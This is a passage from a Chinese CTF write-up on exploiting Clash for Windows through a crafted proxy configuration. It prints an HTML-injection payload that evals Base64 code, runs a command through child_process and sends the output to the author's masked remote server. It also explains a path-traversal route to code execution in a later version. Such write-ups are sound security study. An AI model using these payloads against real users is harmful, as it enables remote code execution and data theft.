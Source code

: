 具体到这个题来说，主要有两个问题，第一是我们的payload中包含`/`，对于HTML语言来说这和空格一样会被当成两个属性之间的分隔符。第二个问题是，我们执行的代码返回了结果，我们还需要把这个结果送到一个我们能获取的地方，比如Clash的界面上，或者我的某个远程服务器的日志里。

第一个问题很简单，我们可以对需要执行的代码进行Base64编码写进配置里。第二个问题我是用了后一种方案，因为我有正在运行的服务器，我就直接以flag的base64编码为参数对服务器做了个请求，从日志里把flag扒出来。（这个flag好像是electron is unsecure？）

```javascript
// payload（with my IP masked）
proxies:
  - name: forge<img/src="1"/onerror=eval(atob(require("querystring").unescape("cmVxdWlyZSgiaHR0cCIpLmdldCgiaHR0cDov_____________________________az0iK3JlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjU3luYygiL2FwcC9yZWFkZmxhZyIpLnRvU3RyaW5nKCJiYXNlNjQiKSwgKHJlcyk9Pnt9KTs%3D")));>
// generator JS:
require("querystring").escape(btoa(`require("http").get("${remote_URL}"+require("child_process").execSync("${rce}").toString("base64"), (res)=>{});`))
```

![](./cfw/flag3.png)


在查到0.19.8这个漏洞之前，我还查到了一个更高版本（0.20.12）爆出来的漏洞，这个漏洞的原理是，利用远程`provider`配置的功能可以把对应的配置下载到本地，并且可以指定配置文件的地址。但是Clash Premium内核对配置文件的处理有漏洞，可以发生路径穿越，并最终可以导致`provider.yml`覆盖CFW的配置文件`cfw-settings.yml`，然后`cfw-settings.yml`有包含`parsers`在内的主动执行nodejs代码的模块，或者`child_process`这样主动发起子进程执行命令的模块，进行RCE。唯一的问题在于，要让`cfw-settings.yml`生效需要让CFW重启，考虑到有`supervisord`保持CFW一直运行，如果有办法让把CFW搞崩溃或者kill掉，让supervisord重启CFW，或许也可以用这个洞拿到flag。可以看这个[RCE issue](https://github.com/Fndroid/clash_for_windows_pkg/issues/3891)

#### 总结

首先不得不佩服出题人的创意，我从来没想过在CTF里面会用VNC远程桌面作为题目环境，很炫酷很geek。事实也证明这个VNC确实是有代价的，启动加载很慢（我猜很耗资源），而且还有不少BUG（最典型的就是CFW配置文件报错提示有时候点不掉，后面的配置就无法导入了，只能重启环境）。感觉noVNC + puppeteer限制操作自由度是个挺好的出题思路啊，期待以后更多的远程桌面Web/misc题。

这个题的前端是模拟一个受害者的视角。导入配置和访问网页都是正常的用户行为，但是如果导入了恶意的配置，就可能导致严重的安全问题。所以对一般人来说，如果要用的话，最好还是只导入受信任的配置，并且积极更新版本获取补丁。

## Binary
### 汉化绿色版免费下载（解包）
（只做出了第一问，第二问发现了令人绝望的多解于是不再尝试）
